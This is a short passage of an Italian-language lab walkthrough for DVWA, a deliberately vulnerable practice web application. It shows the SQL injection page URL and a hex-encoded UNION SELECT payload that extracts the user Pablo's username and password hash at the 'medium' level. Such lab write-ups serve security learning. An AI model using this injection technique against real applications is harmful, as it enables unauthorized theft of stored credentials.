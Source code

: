 ![SQLMedium](./Screenshots/SQLmedium.png)

### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati di Pablo**:
   Usa il seguente payload nel campo **User ID**:
   
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```
   
   ![PabloMedium](./Screenshots/EstraggoPabloMedium.png)
   